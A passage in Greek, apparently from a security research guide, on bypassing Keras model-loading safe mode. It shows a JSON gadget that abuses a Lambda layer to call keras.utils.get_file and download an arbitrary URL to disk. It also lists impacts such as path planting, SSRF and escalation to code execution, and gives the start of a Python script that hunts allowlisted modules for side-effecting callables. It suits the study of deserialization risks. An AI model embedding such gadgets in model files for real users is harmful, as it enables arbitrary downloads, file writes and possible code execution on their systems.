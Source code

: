 Ακόμα και με τη λίστα επιτρεπόμενων και την ασφαλή λειτουργία, παραμένει μια ευρεία επιφάνεια μεταξύ των επιτρεπόμενων κλήσεων Keras. Για παράδειγμα, η keras.utils.get_file μπορεί να κατεβάσει αυθαίρετες διευθύνσεις URL σε τοποθεσίες που επιλέγει ο χρήστης.

Gadget μέσω Lambda που αναφέρεται σε μια επιτρεπόμενη συνάρτηση (όχι σειριακός κωδικός Python):
```json
{
"module": "keras.layers",
"class_name": "Lambda",
"config": {
"name": "dl",
"function": {"module": "keras.utils", "class_name": "get_file"},
"arguments": {
"fname": "artifact.bin",
"origin": "https://example.com/artifact.bin",
"cache_dir": "/tmp/keras-cache"
}
}
}
```
Σημαντικός περιορισμός:
- Η Lambda.call() προσθέτει τον είσοδο tensor ως την πρώτη θετική παράμετρο κατά την κλήση του στόχου callable. Οι επιλεγμένες συσκευές πρέπει να αντέχουν μια επιπλέον θετική παράμετρο (ή να δέχονται *args/**kwargs). Αυτό περιορίζει ποιες συναρτήσεις είναι βιώσιμες.

Πιθανές επιπτώσεις των επιτρεπόμενων συσκευών:
- Αυθαίρετη λήψη/γραφή (planting διαδρομών, δηλητηρίαση ρυθμίσεων)
- Δικτυακές κλήσεις/επιπτώσεις παρόμοιες με SSRF ανάλογα με το περιβάλλον
- Συσχέτιση με εκτέλεση κώδικα αν οι γραμμένες διαδρομές εισαχθούν/εκτελούνται αργότερα ή προστεθούν στο PYTHONPATH, ή αν υπάρχει μια εγγράψιμη τοποθεσία εκτέλεσης κατά την εγγραφή

## Εργαλειοθήκη ερευνητή

1) Συστηματική ανακάλυψη συσκευών σε επιτρεπόμενα modules

Καταγράψτε υποψήφιες κλήσεις σε keras, keras_nlp, keras_cv, keras_hub και δώστε προτεραιότητα σε αυτές με παρενέργειες αρχείων/δικτύου/διαδικασιών/περιβάλλοντος.
```python
import importlib, inspect, pkgutil

ALLOWLIST = ["keras", "keras_nlp", "keras_cv", "keras_hub"]

seen = set()

def iter_modules(mod):
if not hasattr(mod, "__path__"):
return
for m in pkgutil.walk_packages(mod.__path__, mod.__name__ + "."):
yield m.name

candidates = []
for root in ALLOWLIST:
try:
r = importlib.import_module(root)
except Exception:
continue
for name in iter_modules(r):
if name in seen:
continue
seen.add(name)
try:
m = importlib.import_module(name)
except Exception:
continue
for n, obj in inspect.getmembers(m):
```